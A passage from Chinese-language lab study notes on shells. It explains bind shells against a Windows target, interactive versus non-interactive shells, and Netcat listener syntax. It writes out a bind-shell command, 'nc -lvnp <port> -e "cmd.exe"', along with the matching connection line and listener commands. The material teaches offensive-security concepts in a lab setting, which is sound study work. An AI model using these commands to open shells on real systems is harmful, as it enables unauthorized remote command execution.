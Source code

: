 **绑定shell的例子**

绑定 shell 不太常见，但仍然非常有用。 请看下面的图片。同样，左边是攻击者的电脑，右边是模拟目标。为了稍微改变一下，这次我们将使用 Windows 目标。

首先，我们在右边的目标上启动一个监听器--这一次，我们告诉它执行cmd.exe，然后，当目标机上的监听器启动并运行时，我们从自己的机器发送连接到目标机上新打开的端口

```shell
#在目标机上设置监听器，当监听器被触发时 执行cmd.exe程序：
nc -lvnp <port> -e "cmd.exe"

#在攻击机上发出连接请求：
nc MACHINE_IP <port>     #MACHINE_IP <port> 指的是目标机的ip和打开的端口
```

![image-20220923213927491](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220923213927491.png)

正如你所看到的，这再次为我们提供了在远程计算机上执行代码的机会。 注意，这种情况不是 Windows 特有的，重要的是要明白，我们正在目标上开启监听器，然后用我们自己的机器主动去连接到它（目标）。

最后一个与本小节相关的概念是交互性。shell可以是交互式的，也可以是非交互式的。

**交互式shell**

如果你使用过 Powershell、 Bash、 Zsh、 sh 或任何其他标准的CLI（命令行）环境，那么你已经接触过交互式shell。 交互式shell允许你在执行程序之后与它们发生交互。

例如，使用SSH登录:

![image-20220924001916424](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924001916424.png)

在这里，你可以看到它以交互方式请求用户输入 yes 或 no 以继续进行登录连接。这是一个交互式程序，它需要一个交互式 shell 才能运行。

**非交互式shell**

非交互式shell 不会给你发生交互的机会。在非交互式shell中，只能使用不需要用户交互就能正常运行的程序。不幸的是，大多数简单的反向和绑定 shell 都是非交互式的，这可能会使进一步的漏洞利用变得更加棘手。

让我们看看在非交互式 shell 中运行 SSH 时会发生什么:

![image-20220924002307045](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924002307045.png)

由上图可以看到，whoami 命令(非交互式)执行得非常完美，但 ssh 命令(交互式)根本不会给我们任何输出。不过，有趣的是，交互式命令的输出确实可以到达某个地方。

可以说，交互式程序不能在非交互式 shell 中工作。此外，在截图中可以看到一个名为listener的命令，此命令是用于演示的攻击机器自定义的独有别名，是sudo rlwrap nc -lvnp 443 命令的速记方法。除非你在本地配置了这个别名，否则它不会在任何其他机器上工作。

**答题**

![image-20220924003952796](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220924003952796.png)

## Netcat工具

**使用Netcat建立反向shell**

建立反向 shell 需要执行反向shell 代码以及设置监听器，执行 shellcode 的方法有很多，所以我们先从设置监听器开始。

使用 Linux 启动 netcat 监听器的语法如下:

```shell
nc -lvnp <port-number>

-l            #用来告诉netcat这将是一个监听器listener
-v            #用于请求详细输出
-n            #告诉netcat不要解析主机名或者使用DNS
-p            #指定端口
```
